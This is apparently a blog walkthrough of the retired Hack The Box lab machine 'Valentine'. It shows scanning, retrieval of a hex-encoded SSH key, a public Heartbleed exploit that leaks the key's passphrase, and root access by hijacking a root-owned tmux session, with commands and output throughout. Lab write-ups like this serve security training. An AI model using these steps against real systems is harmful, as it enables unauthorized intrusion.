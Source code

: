 ```yaml
---
layout: post
title: "HTB-Valentine"
categories: HTB-Walkthrough
---
```



![valentine](/assets/img/valentine/valentine1.png)


Valentine is another OSCP-like box from the HTB 'retired' archive.

As always, we start with nmap.

<h3>Nmap</h3>

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.79 |tee -a val.txt`

```

Nmap scan report for 10.10.10.79
Host is up (0.12s latency).
Not shown: 34526 filtered ports, 31006 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



<hr width="250" size="6">


Checking out the website on port80 we are greeted with a picture.

![omg-pic](/assets/img/valentine/valentine-pic.png)

The source tells us its called 'omg.jpg', I download it, just incase there's some steganography at play here.
It's quite likely that the picture is just a hint at 'heartbleed', a well known https vulnerability, which may come into play on the port443.
Before rushing to that port, its worth enumerating the directories here with `gobuster`.

```
gobuster dir -u http://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh
```

Interesting results:

```

/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)

```

The /dev page is a directory with some interesting contents.

![dev](/assets/img/valentine/valentine-dev.png)


The 'notes' link takes us to a todo list.

![notes](/assets/img/valentine/valentine-notes.png)

It mentions the decode and encode pages, found by gobuster.

The other page 'hype_key' looks like its hex encoded.

I use wget to pick up the key...

`wget http://10.10.10.79/dev/hype_key`

We can decode it with the `xxd` command.

```
cat hype_key | xxd -r -p
```


Using an online hex to text converter we find that its a private rsa key.

![hextotext](/assets/img/valentine/valentine-hextotext.png)


<hr width="250" size="6">


The https port, besides the expected alerts about insecure certificates, takes us again to omg.jpg.

```
gobuster dir -u https://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh -k
```


<h3>Heartbleed</h3>


I found a simple [heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py) exploit on github that works well....

It may need to be executed a number of times, until you see something interesting.

`python heartbleed.py 10.10.10.79 -v`


```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==......].......7....~
```

Then we can decode it.

```
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" |base64 -d
heartbleedbelievethehype
```

It looks like its the password for the id_rsa we've picked up.


<hr width="250" size="6">

Remember to do `chmod 600 id_rsa` to set the correct permissions on the private key file.

I tried `ssh -i id_rsa root@10.10.10.79` but it didn't work, 
It took a bit of thought before I tried the username `hype`

```
ssh -i id_rsa hype@10.10.10.79
```

The password `heartbleedbelievethehype` worked, and I got user-shell.


<hr width="250" size="6">


Looking at the bash history is fruitful, you should always do `ls -la` in the home folder, and if
.bash_history is not redirected to `2>/dev/null` then it may be worth checking early.

![bash-history](/assets/img/valentine/valentine-bash-history.png)


Checking the running processes, we can see that there's a `tmux` session still running.

```
hype@Valentine:~$ ps aux |grep tmux
root       1024  0.0  0.1  26416  1672 ?        Ss   02:21   0:03 /usr/bin/tmux -S /.devs/dev_sess
hype       5769  0.0  0.0  13576   920 pts/0    S+   05:23   0:00 grep --color=auto tmux
```


We can simply rejoin this session and get root privileges.

```
/usr/bin/tmux -S /.devs/dev_sess
```

Easy to get flags...

```
root@Valentine:/home/hype# cat Desktop/user.txt
e6xxxxxxxxxxxxxxxxxxxxxxxxxxxx50
root@Valentine:/home/hype# cat /root/root.txt
f1xxxxxxxxxxxxxxxxxxxxxxxxxxxxb2
root@Valentine:/home/hype# 
```

Quick roots are always amazing, demonstrating a catastrophic error, misconfiguration and whatnot.

'Leave 'em wanting more!' is a good ethos.

Thanks for the fun box.

:)






